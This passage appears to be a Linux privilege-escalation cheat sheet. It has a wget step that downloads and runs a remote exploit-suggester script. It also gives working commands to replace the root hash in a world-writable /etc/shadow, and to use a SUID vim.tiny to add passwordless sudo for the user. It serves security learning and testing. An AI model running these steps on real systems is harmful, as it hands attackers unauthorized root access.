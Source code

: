 ```bash
root👻docker-desktop:~# wget https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh -O les.sh
root👻docker-desktop:~# chmod +x ./les.sh
root👻docker-desktop:~# ./les.sh
```

### **2-Linux Privilege Escalation - Weak Permissions**
- LinEnum is a simple bash script that automates common Linux local enumeration checks in addition to identifying privilege escalation vulnerabilities. 
- GitHub Repo: <a href="https://github.com/rebootuser/LinEnum">https://github.com/rebootuser/LinEnum</a>
```bash
kali@kali:~$ find / -not -type f -perm -o+w
# if you find the /etc/shadow
kali@kali:~$ ls -al /etc/shadow
-rw-rw-rw 1 root shadow 523 jun 4 2025 /etc/shadow
kali@kali:~$ openssl passwd -1 -salt {anything} {any_password_you_want}
#eg
kali@kali:~$ openssl passwd -1 -salt abc password

kali@kali:~$ vim /etc/shadow
# make the line root:*:17764:0:99999:7::: replace the * whith the hash
# root$1$abc$BXBqpb9BZcZhXLgbee.0s/:17764:0:99999:7:::
# now the root password is {password} and you can login to it using su root witht the password password
```
### **3-Exploiting SUID Binaries**
- In addition to the three main file access permissions (read, write and execute), Linux also provides users with specialized permissions that can be utilized in specific situations. One of these access permissions is the SUID (Set Owner User ID) permission.
- When applied, this permission provides users with the ability to execute a script or binary with the permissions of the file owner as opposed to the user that is running the script or binary.
- SUID permissions are typically used to provide unprivileged users with the ability to run specific scripts or binaries with “root” permissions. It is to be noted, however, that the provision of elevate privileges is limited to the execution of the script and does not translate to elevation of privileges, however, if improperly configured unprivileged users can exploit misconfigurations or vulnerabilities within the binary or script to obtain an elevated session.
- This is the functionality that we will be attempting to exploit in order to elevate our privileges, however, the success of our attack will depend on the following factors:
	- Owner of the SUID binary – Given that we are attempting to elevate our privileges, we will only be exploiting SUID binaries that are owned by the “root” user or other privileged users.
	- Access permissions – We will require executable permissions in order to execute the SUID binary.

```bash
kali👻docker-desktop:~# find / -perm -4000 -o -perm -2000 -type f 2>/dev/null
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/passwd
/usr/bin/vim.tiny
/usr/bin/sudo
/bin/su
/bin/mount
/bin/unmount
kali👻docker-desktop:~# ls-la /usr/bin/vim.tiny
-rwsr-xr-x 1 root root 1108024 June 4 /usr/bin/vim.tiny
kali👻docker-desktop:~# vim.tiny /etc/sudoers
# add under # See Sudoers(5) for more information on "#include" directives:
# add kali ALL=NOPASSWD:ALL
# the ESC then type :wq! to override
kali👻docker-desktop:~# sudo su
root👻docker-desktop:~#
```